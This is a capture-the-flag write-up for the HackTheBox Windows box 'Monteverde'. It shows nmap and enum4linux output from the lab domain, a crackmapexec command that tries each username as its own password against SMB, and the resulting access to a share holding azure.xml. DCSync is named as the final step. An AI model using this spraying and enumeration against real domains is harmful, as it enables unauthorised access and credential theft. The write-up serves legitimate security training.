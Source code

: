 # Hackthebox - Monteverde

## Summary

Monteverde,a Windows box created by HackTheBox user `egre55`, was an overall medium difficulty box. Initial foothold was finding a cred which was a result of a lazy sysadmin. using that we can find credentials for user in a ```azure.xml``` file. checking the group of that user we see it is in Azure Admin group which mean it can perform DCSync using that we can get administrator credentials and pwned this box.

## Enumeration

### nmap scan

># Nmap 7.80 scan initiated Tue June 2 14:11:44 2020 as: nmap -T4 -sC -sV -oN nmap/monteverde 10.10.10.172
>Nmap scan report for 10.10.10.172
>Host is up (0.21s latency).
>Not shown: 989 filtered ports
>PORT     STATE SERVICE       VERSION
>53/tcp   open  domain?
>| fingerprint-strings:
>|   DNSVersionBindReqTCP:
>|     version
>|_    bind
>88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2020-01-11 19:22:42Z)
>135/tcp  open  msrpc         Microsoft Windows RPC
>139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
>389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: MEGABANK.LOCAL0., Site: Default-First-Site-Name)
>445/tcp  open  microsoft-ds?
>464/tcp  open  kpasswd5?
>593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
>636/tcp  open  tcpwrapped
>3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: MEGABANK.LOCAL0., Site: Default-First-Site-Name)
>3269/tcp open  tcpwrapped
>1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
>SF-Port53-TCP:V=7.80%I=7%D=1/11%Time=5E1A1E53%P=x86_64-pc-linux-gnu%r(DNSV
>SF:ersionBindReqTCP,20,"\0\x1e\0\x06\x81\x04\0\x01\0\0\0\0\0\0\x07version\
>SF:x04bind\0\0\x10\0\x03");
>Service Info: Host: MONTEVERDE; OS: Windows; CPE: cpe:/o:microsoft:windows
>
>Host script results:
>|_clock-skew: 9m22s
>| smb2-security-mode:
>|   2.02:
>|_    Message signing enabled and required
>| smb2-time:
>|   date: 2020-01-11T19:23:57
>|_  start_date: N/A
>
>Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
># Nmap done at Sat Jan 11 14:17:14 2020 -- 1 IP address (1 host up) scanned in 329.68 seconds

we see all the ports are `Active Directory` and `SMB` related

running `emum4linux` we get a list of usernames.

>=============================
>|    Users on 10.10.10.172    |
>=============================
>index: 0xfb6 RID: 0x450 acb: 0x00000210 Account: AAD_987d7f2f57d2	Name: AAD_987d7f2f57d2	Desc: Service account for the Synchronization Service with installation identifier 05c97990-7587-4a3d-b312-309adfc172d9 running on computer MONTEVERDE.
>index: 0xfd0 RID: 0xa35 acb: 0x00000210 Account: dgalanos	Name: Dimitris Galanos	Desc: (null)
>index: 0xedb RID: 0x1f5 acb: 0x00000215 Account: Guest	Name: (null)	Desc: Built-in account for guest access to the computer/domain
>index: 0xfc3 RID: 0x641 acb: 0x00000210 Account: mhope	Name: Mike Hope	Desc: (null)
>index: 0xfd1 RID: 0xa36 acb: 0x00000210 Account: roleary	Name: Ray O'Leary	Desc: (null)
>index: 0xfc5 RID: 0xa2a acb: 0x00000210 Account: SABatchJobs	Name: SABatchJobs	Desc: (null)
>index: 0xfd2 RID: 0xa37 acb: 0x00000210 Account: smorgan	Name: Sally Morgan	Desc: (null)
>index: 0xfc6 RID: 0xa2b acb: 0x00000210 Account: svc-ata	Name: svc-ata	Desc: (null)
>index: 0xfc7 RID: 0xa2c acb: 0x00000210 Account: svc-bexec	Name: svc-bexec	Desc: (null)
>index: 0xfc8 RID: 0xa2d acb: 0x00000210 Account: svc-netapp	Name: svc-netapp	Desc: (null)
>
>user:[Guest] rid:[0x1f5]
>user:[AAD_987d7f2f57d2] rid:[0x450]
>user:[mhope] rid:[0x641]
>user:[SABatchJobs] rid:[0xa2a]
>user:[svc-ata] rid:[0xa2b]
>user:[svc-bexec] rid:[0xa2c]
>user:[svc-netapp] rid:[0xa2d]
>user:[dgalanos] rid:[0xa35]
>user:[roleary] rid:[0xa36]
>user:[smorgan] rid:[0xa37]

using that we can create a `users.txt` as

>Guest

>AAD_987d7f2f57d2

>mhope

>SABatchJobs
>svc-ata
>svc-bexec
>svc-netapp
>dgalanos
>roleary
>smorgan

> crackmapexec smb 10.10.10.172 -u users.txt -p users.txt

Trying the same username as password we get a successful credential as SABatchJobs:SABatchJobs

Trying that on winrm we get Invalid credential so lets try on smb, and Bingo

we can list and Read lot of shares checking //10.10.10.172/users$ share we see there is a `azure.xml` in mhope directory

